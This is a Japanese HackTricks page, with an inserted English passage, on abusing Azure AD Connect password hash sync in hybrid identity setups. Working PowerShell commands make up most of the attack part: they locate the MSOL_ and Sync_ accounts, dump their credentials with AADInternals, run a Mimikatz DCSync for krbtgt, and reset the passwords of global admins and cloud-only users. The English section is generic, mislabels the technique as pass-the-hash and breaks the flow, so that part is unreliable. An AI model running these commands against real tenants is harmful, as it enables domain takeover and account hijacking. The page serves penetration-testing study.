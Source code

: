 # PHS - パスワードハッシュ同期

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSを見たい**場合、またはHackTricksをPDFでダウンロードしたい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローする。
* **ハッキングのトリックを共有するには、**[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>

## 基本情報

**パスワードハッシュ同期**は、ハイブリッドアイデンティティを実現するために使用されるサインイン方法の1つです。Azure AD Connectは、オンプレミスのActive DirectoryインスタンスからクラウドベースのAzure ADインスタンスにユーザーのパスワードのハッシュを同期します。

<figure><img src="../../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

これは、企業がオンプレミスのADをAzure ADと同期させるために最も一般的に使用される方法です。

すべての**ユーザー**と**パスワードハッシュのハッシュ**がオンプレミスからAzure ADに同期されます。ただし、**平文のパスワード**や**元のハッシュ**はAzure ADに送信されません。\
さらに、**ビルトイン**セキュリティグループ（ドメイン管理者など）はAzure ADに**同期されません**。

ハッシュの同期は**2分ごと**に行われます。ただし、デフォルトでは、Azure ADでは**パスワードの有効期限**と**アカウントの有効期限**は**同期されません**。したがって、**オンプレミスのパスワードが期限切れ**（変更されていない）の場合でも、古いパスワードを使用してAzureリソースにアクセスし続けることができます。

オンプレミスのユーザーがAzureリソースにアクセスする場合、**認証はAzure ADで行われます**。

**PHS**は、Identity ProtectionやAAD Domain Servicesなどの機能に必要です。

## ピボット

PHSが構成されている場合、いくつかの**特権アカウント**が自動的に**作成**されます：

* アカウント**`MSOL_<installationID>`**は、オンプレミスのADで自動的に作成されます。このアカウントには**Directory Synchronization Accounts**ロール（[ドキュメント](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)を参照）が付与されており、オンプレミスのADで**レプリケーション（DCSync）権限**を持っています。
* アカウント**`Sync_<name of on-prem ADConnect Server>_installationID`**は、Azure ADで作成されます。このアカウントは、Azure ADの**任意のユーザー**（同期されたユーザーまたはクラウドのみのユーザー）のパスワードを**リセット**することができます。

前述の2つの特権アカウントのパスワードは、**Azure AD Connectがインストールされているサーバー**のSQLサーバーに**平文で保存**されています。管理者はこれらの特権ユーザーのパスワードを平文で抽出することができます。

**Azure AD Connectがインストールされているサーバー**がドメインに参加している場合（ドキュメントで推奨されている）、次のコマンドで見つけることができます：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### AzureAD -> オンプレミス

In this section, we will discuss the technique of Pass-the-Hash (PtH) attack using Azure AD Connect in a hybrid identity environment. 

#### Introduction

Azure AD Connect is a tool provided by Microsoft that allows synchronization of on-premises Active Directory (AD) with Azure AD. This synchronization enables users to have a single identity across both on-premises and cloud environments. 

#### Password Hash Sync (PHS)

One of the synchronization methods provided by Azure AD Connect is Password Hash Sync (PHS). With PHS, the password hashes of on-premises AD users are synchronized to Azure AD. This allows users to authenticate against Azure AD using the same password they use for on-premises AD. 

#### Exploiting PHS for Lateral Movement

In a hybrid identity environment, where Azure AD is synchronized with on-premises AD using PHS, an attacker can exploit this synchronization to perform lateral movement. 

The attacker can obtain the password hash of an on-premises AD user from Azure AD. This can be done by compromising an account with sufficient privileges in Azure AD or by exploiting vulnerabilities in Azure AD Connect. 

Once the attacker has the password hash, they can use it to authenticate as the on-premises AD user on other systems within the on-premises network. This allows the attacker to move laterally and gain access to sensitive resources within the network. 

#### Mitigation

To mitigate the risk of Pass-the-Hash attacks using Azure AD Connect, the following measures can be taken:

1. Ensure that Azure AD Connect is up to date with the latest security patches and updates.
2. Implement strong access controls and least privilege principles for accounts used by Azure AD Connect.
3. Monitor and log activities related to Azure AD Connect for any suspicious behavior.
4. Regularly review and audit the configuration of Azure AD Connect to ensure it aligns with security best practices.
5. Implement multi-factor authentication (MFA) for Azure AD accounts to add an extra layer of security.

By following these mitigation measures, organizations can reduce the risk of Pass-the-Hash attacks and enhance the security of their hybrid identity environment.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
### オンプレミス -> AzureAD

`Sync_*` アカウントを侵害することで、グローバル管理者を含む任意のユーザーのパスワードを**リセット**することが可能です。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
**クラウドのみのユーザーのパスワードを変更することも可能です**（予期しない場合でも）。
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
### シームレスSSO

PTAとシームレスSSOを使用することが可能であり、他の悪用に対して脆弱です。以下で確認してください：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで広告表示したい**場合や、**最新版のPEASSを入手したい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)を手に入れましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **HackTricks**と**HackTricks Cloud**のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有しましょう。

</details>
